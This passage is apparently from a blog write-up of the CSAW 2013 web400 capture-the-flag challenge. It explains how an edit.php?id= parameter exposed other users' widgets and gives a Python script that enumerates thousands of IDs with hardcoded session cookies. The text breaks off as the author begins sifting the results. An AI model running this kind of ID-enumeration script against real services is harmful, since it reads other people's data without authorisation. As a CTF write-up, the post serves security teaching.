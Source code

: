```yaml
---
layout: post
title: CSAW 2013 web400 write-up
---
```


<p>Just like <a href="{% post_url 2013-09-23-csaw-2013-web300-write-up %}" title="CSAW2013 web300 write-up">web300</a>, this one was simple and <em>adventurous</em>. There was a web app out there, &#8220;WidgetCorp&#8221;, to pwn. What you could do there was:</p>

<ul><li>Register </li>
<li>Log in</li>
<li>Create &#8220;widgets&#8221; which is a key/value pair</li>
<li>View only your own widgets</li>
<li>Edit your own widgets, without the ability to save though (and that&#8217;s weird, so the attack vector points at something else other than forms and requests to the server).</li>
</ul><p>Poking around quickly discovered the fact that <code>edit.php?id=</code> would accept any ID of any existing widget even if&#8217;s not your own. Having that in mind I quickly piled up a script to extract all the service's widgets (or see this <a href="https://gist.github.com/6685572">gist</a>):</p>

{% highlight python %}
#!/usr/bin/env python

import requests
import pprint

cookie_jar = \
{
    "PHPSESSID": "g53q6qct4l2bbgs1p5t48denf1",
    "widget_tracker": "YTozOntpOjA7aTo1MzMwO2k6MTtpOjUzMzc7aToyO2k6NTM0MDt9",
    "widget_validate": "05963d6a3e0abdc7df29beae3c68c6e933d4021446f060024aa4b8fa9cf61928748d4a93bce9209a106db6ef8dbba2ddf8aa0ef105bb11ec0b911a9e513718f"
}


def main():

    for index in range(0, 5000):

        url = 'http://128.238.66.224/edit.php?id=' + str(index)

        res = requests.get(url, cookies=cookie_jar)

        delimiter = '-' * 16

        print("Browsing id={0}: {1}\n{2}\n"
              .format(str(index), pprint.pformat(res.text), delimiter))


if __name__ == '__main__':
    main()

{% endhighlight %}


<p>I started looking for intel within all the <a href="http://speedy.sh/DEk7Q/web400-crap.txt">crap</a> I received:</p>
